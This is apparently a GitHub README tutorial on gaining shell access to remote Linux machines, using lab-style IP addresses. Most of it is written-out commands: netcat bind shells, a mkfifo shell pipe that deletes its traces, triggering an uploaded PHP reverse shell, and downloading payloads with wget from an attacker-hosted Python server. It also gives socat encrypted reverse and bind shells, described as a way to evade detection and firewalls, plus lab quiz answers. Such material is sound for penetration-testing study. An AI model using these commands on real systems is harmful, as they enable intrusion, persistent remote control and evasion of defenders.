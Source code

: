 # Various-process-of-getting-shell-access
Here We'll discuss how to get a shell in multiple ways -->

## For-Linux-Remote-PC:

First assume your **ATTACK/HACKER PC IP** is **10.10.201.217** & your **REMOTE/ATTACKING/TARGET PC IP** is **10.10.152.101**

### _**Type-1: Simple bind shell using netcat**_

This is the easiest process. Assume you already has SSH ACCESS and netcat needs to be installed on both the devices.

1. Log in to Remote pc using ssh ID and pass. then type the below command in remote pc terminal-

    <pre><code><b>nc -lvnp 4000 -e /bin/bash</b></code></pre> 
   
   This will create a Bind shell in remote pc and it starts looking for any conenction on it's 4000 port

3. Now in attack pc terminal type
   
   <pre><code><b>nc 10.10.152.101 4000</b></code></pre>

this will connect you to remote pc shell using 4000 port

INSTEAD of above **method-1's point 1** you can use **below command in remote pc** which will help you to **delete the execution files and details ones the job is done** -

   <pre><code><b>mkfifo /tmp/f; nc -lvnp 1234 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f</b></code></pre>  

   > Here's what each part of the command does:

   > **mkfifo /tmp/f:** Creates a **pipe named f** in **tmp** folder with **mkfifo** command. This is used for passing data between processes. **FIFO** means **first in** & **First out**

   > **nc -lvnp 1234 < /tmp/f:** Starts a netcat listener **(nc)** on port **1234** and reads input from the named pipe **/tmp/f**. When a connection is made, netcat pipes the input/output to /bin/sh, effectively spawning a shell.

   > **| /bin/sh >/tmp/f 2>&1**: This pipes the output of netcat to **/bin/sh**, which **starts a shell**. The shell's input and output are redirected to the named pipe **/tmp/f**. This effectively creates a reverse shell, where any commands entered on the attacking machine are executed on the target machine..

   > **rm /tmp/f**: Finally, this command removes the named pipe once the shell is closed, cleaning up after the operation

### _Type 2: using php-reverse-shell_ 
Assume you have uploaded a revershe shell file to the vulnerable web server by any means. Assume the file name is "shell.php" and it's in /var/www/html folder of 10.10.152.101 ip. Activate this file by typing below command in your browser in your attack machine

 <pre><code><b> http://10.10.152.101/shell.php</b></code></pre> 

(you'll see your browser starts loading and will become unresponsive, which means the shell has been activated)

Now try the below command in your attacking machine terminal

 <pre><code><b> nc -lvnp 1234  </b></code></pre> 

here the port number is the port number which you mentioned in your shell.php file

you can create the shell file from your kali linux /usr/share/webshells folder or you can use https://www.revshells.com/ or https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#summary to generate and download the file

### _Type 3: by using temporary webserver_ 
If somehow you have access to remote pc from before fro time being then for further and future access you can upload the reverse shell directly to the remote pc. 

In this process first create the reverse shell file, then in the same directory type the below command to start a http server on any port

 <pre><code><b> python3 -m http.server 8000 </b></code></pre> 

it means a temporay http server has been created using python on port 8000

then from remote pc download the file from attackers pc using the below command -

 <pre><code><b>wget http://attacker-pc-ip:8000/path-to-shell-file</b></code></pre> 

then after downloading it in remote pc, move it to /var/www/html folder or any other folder which you can access globally from anywhere. after that follow type 2 procedure to access later

## _USING SOCAT-_
SOCAT creates encrypted shell which is very useful to evade IDEs and other firewalls . But for that both attacker and remote machine needs to have socat installed in it.
After gaining access by following above processes you can transfer the socat binary from your local machine to the target machine (with IP address **10.10.152.101**)

 <pre><code><b>scp /path/to/socat user@10.10.152.101:/path/to/destination</b></code></pre>  

(usually socat path is **/usr/bin/socat** or you can use which socat to check the path)

for socat you need user access otherwise it'll become very tough to use SOCAT.

## _Create ENCRYPTED SHELL using SOCAT:_

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

 <pre><code><b>openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt</b></code></pre> 

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly. 

We then need to merge the two created files into a single `.pem` file:

<pre><code><b>cat shell.key shell.crt > shell.pem</b></code></pre>

Now, when we set up our reverse shell listener, we use:

<pre><code><b>socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -</b></code></pre> 

This sets up an OPENSSL listener using our generated certificate. `verify=0`
 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate *must* be used on whichever device is listening.

 **To connect back, we would use:**
 
<pre><code><b>socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash</b></code></pre>  

The same technique would apply for a **bind shell:**

**Target:**

<pre><code><b>socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes</b></code></pre> 

**Attacker:**

<pre><code><b> socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -</b></code></pre> 

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![UbOPN9q](https://github.com/Tony-Edward-Stark/various-process-of-getting-shell-access/assets/112267976/c36f2e52-e2f5-4b8f-8fa2-53fa8e6e5520)


## _EXAMPLE_

What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port **53**, and a PEM file called "**encrypt.pem**"

<pre><code><b>socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:tty,raw,echo=0 - </b></code></pre>  

If your IP is **10.10.10.5**, what syntax would you use to connect back to this listener?

<pre><code><b>socat OPENSSL:10.10.10.5:53,EXEC:"bash -li",pty,stderr,sigint,setsid,sane </b></code></pre>  




